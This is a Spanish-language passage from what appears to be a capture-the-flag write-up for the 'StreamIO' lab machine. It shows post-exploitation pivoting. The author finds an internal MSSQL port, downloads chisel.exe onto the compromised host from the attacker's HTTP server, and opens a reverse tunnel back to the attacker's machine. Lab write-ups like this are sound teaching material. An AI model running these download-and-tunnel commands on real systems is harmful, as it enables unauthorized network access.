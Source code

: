 No tardaremos muchos en saber que no podemos hacer mucho con este usuario, aúnque hay una base de datos

```powershell
PS C:\inetpub\streamio.htb\admin> netstat -nat | select-string 'tcp'
netstat -nat | select-string 'tcp'

...[snip]...
  TCP    0.0.0.0:1433           0.0.0.0:0              LISTENING       InHost
...[snip]...
  TCP    10.10.11.158:1433      10.10.11.158:60029     ESTABLISHED     InHost
...[snip]...
  TCP    [::]:1433              [::]:0                 LISTENING       InHost
...[snip]...
```
Esta abierto el puerto 1433 internamente (se veia venir)

Le cargamos el <a href="https://github.com/jpillora/chisel" target="_blank"> chisel.exe</a> para que nuestro puerto 1433 se convierta en el puerto 1433 de la máquina

Abrimos un servidor compartido en python3 para ofrecer el chisel.exe
```ruby
❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...

```

Y en la máquina lo descargamos
```powershell
PS C:\inetpub\streamio.htb\admin> curl http://10.10.14.50/chisel.exe -o C:/Windows/Temp/chisel.exe
PS C:\inetpub\streamio.htb\admin> 
```

Primero nos ponemos en escucha en un puerto de forma reversa
```ruby
❯ ./chisel server --reverse --host 10.10.14.10 -p 8999
2022/09/14 15:10:10 server: Reverse tunnelling enabled
2022/09/14 15:10:10 server: Fingerprint IN043BV4GbFXRvRufBpQQUNrCv3a0xL7/uoOSBZrDU=
2022/09/14 15:10:10 server: Listening on http://10.10.14.10:8999
```

Ponemos la ruta absoluda del chisel.exe y seguimos los parametros indicados
```powershell
PS C:\inetpub\streamio.htb\admin> C:/Windows/Temp/chisel.exe client 10.10.14.50:1236 R:1433:10.10.11.158:1433
c:/windows/temp/chisel.exe client 10.10.14.10:8999 R:1433:10.10.11.158:1433
2022/09/14 15:15:15 client: Connecting to ws://10.10.14.10:8999
2022/09/14 15:15:15 client: Connected (Latency 100ms)
```

Listo tenemos su puerto 1433 y por ende la base de datos
```ruby
❯ lsof -i:1433
COMMAND   PID  USER   FD   TYPE DEVICE SIZE/OFF NODE NAME
chisel  51401 husky    9u  IPv6 365972      0t0  TCP *:ms-sql-s (LISTEN)
```
